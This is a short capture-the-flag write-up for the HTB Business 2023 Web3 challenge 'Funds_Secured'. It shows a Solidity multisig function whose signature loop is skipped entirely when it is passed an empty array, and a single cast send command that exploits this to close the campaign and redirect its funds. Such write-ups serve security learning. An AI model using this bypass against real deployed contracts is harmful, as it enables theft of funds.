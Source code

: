 # HTB Business 2023 : Funds_Secured (Web3)
***
### Details :
First of all, the contract relays on a function to ensure multisignature from 6 members of a list.
***
### Goal :
Our goal is to trick the following function in order to steal funds from the crowdfunding campaign :

```solidity
function closeCampaign(bytes[] memory signatures, address to, address payable crowdfundingContract) public {
        address[] memory voters = new address[](6);
        bytes32 data = keccak256(abi.encode(to));

        for (uint256 i = 0; i < signatures.length; i++) {
            // Get signer address
            address signer = data.toEthSignedMessageHash().recover(signatures[i]);

            // Ensure that signer is part of Council and has not already signed
            require(signer != address(0), "Invalid signature");
            require(_contains(councilMembers, signer), "Not council member");
            require(!_contains(voters, signer), "Duplicate signature");

            // Keep track of addresses that have already signed
            voters[i] = signer;
            // 6 signatures are enough to proceed with `closeCampaign` execution
            if (i > 5) {
                break;
            }
        }

        Crowdfunding(crowdfundingContract).closeCampaign(to);
    }
```
***
### Exploit !
After struggle, i finally found the function only do the different checks into a for loop that takes the size of the array as input.

What if ```i``` was never > 0 ?

```bash
klm@KLM:~$ cast send $WAL "closeCampaign(bytes[],address,address)" [] 0xA5c40B401B57b2aa11C8D17cbfeb343A65c63d69 $CROWD --rpc-url=$RPC --private-key=$PK
```

Enjoy ! ```HTB{XXXXXXXXXXXXX}```
